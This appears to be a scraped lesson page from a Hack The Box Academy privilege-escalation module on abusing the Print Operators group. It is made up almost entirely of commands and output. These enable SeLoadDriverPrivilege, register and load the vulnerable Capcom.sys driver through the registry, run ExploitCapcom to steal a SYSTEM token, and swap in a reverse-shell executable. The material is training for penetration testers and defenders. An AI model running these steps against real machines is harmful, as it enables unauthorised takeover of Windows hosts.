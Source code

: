 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/67/section/605
// Platform Version: V1
// Module ID: 67
// Module Name: Windows Privilege Escalation
// Module Difficulty: Medium
// Section ID: 605
// Section Title: Print Operators
// Page Title: Windows Privilege Escalation
// Page Number: 14
-->

# Print Operators

**Module Name:** Windows Privilege Escalation **Page Number:** 14

#### WINDOWS PRIVILEGE ESCALATION

# Print Operators

#### Confirming Privileges

``` cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

#### Checking Privileges Again

``` cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

```# c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

#### Compile with cl.exe

``` cmd-session
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

#### Add Reference to Driver

``` cmd-session
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

#### Verify Driver is not Loaded

``` powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

#### Verify Privilege is Enabled

``` cmd-session
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

#### Verify Capcom Driver is Listed

``` powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

#### Use ExploitCapcom Tool to Escalate Privileges

``` powershell-session
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

![https://academy.hackthebox.com/storage/modules/67/capcomexploit.png](https://academy.hackthebox.com/storage/modules/67/capcomexploit.png)

## Alternate Exploitation - No GUI

``` c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

``` c
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

## Automating the Steps

#### Automating with EopLoadDriver

``` cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

## Clean-up

#### Removing Registry Key

``` cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

# 

# 

#### Questions

####